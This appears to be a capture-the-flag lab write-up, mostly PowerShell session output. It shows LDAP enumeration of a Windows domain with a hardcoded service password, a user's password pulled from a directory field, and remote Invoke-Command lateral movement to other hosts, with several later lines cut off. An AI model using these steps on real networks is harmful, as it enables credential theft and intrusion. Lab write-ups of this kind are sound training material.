 ```
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
rum,DC=local","FULCRUM\LDAP","PasswordForSearching123!")
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter = "(objectClass=user)";
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path

Path
----
LDAP://dc.fulcrum.local/CN=Bobby Tables,OU=People,DC=fulcrum,DC=local
LDAP://dc.fulcrum.local/CN=LDAP Lookup,OU=People,DC=fulcrum,DC=local
...
```

So we got a User BTables 

For more information about the user, Here is a useful link http://bobby-tables.com/

Getting More info about the user from LDAP:
```
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
rum,DC=local","FULCRUM\LDAP","PasswordForSearching123!")
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path

Path
----
LDAP://dc.fulcrum.local/CN=Bobby Tables,OU=People,DC=fulcrum,DC=local


[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(objectClass=user)"
[192.168.1.41]: PS C:\inetpub\wwwroot> $results = $searcher.findAll()
[192.168.1.41]: PS C:\inetpub\wwwroot> foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
objectClass           : {top, person, organizationalPerson, user}
cn                    : {Bobby Tables}
description           : {Has logon rights to the file server}
distinguishedName     : {CN=Bobby Tables,OU=People,DC=fulcrum,DC=local}
...
info                  : {Password set to ++FileServerLogon12345++}
...
```

We got Boobys Creds yo!

> Username : BTables | Password : ++FileServerLogon12345++ 

### User.txt


[192.168.1.41]: PS C:\Users\WebUser\Documents> whoami
[192.168.1.41]: PS C:\inetpub\wwwroot> cat web.config
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir C:\Users\BTables\Desktop\}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {type C:\Users\BTables\Desktop\user.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir ../ }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {Get-Content ../check-auth.ps1 -Tail 25 > dotalol
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {.\dotalol.ps1 ..\merged.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {sls 923a ..\merged.txt -ca | select -exp line}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName file.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command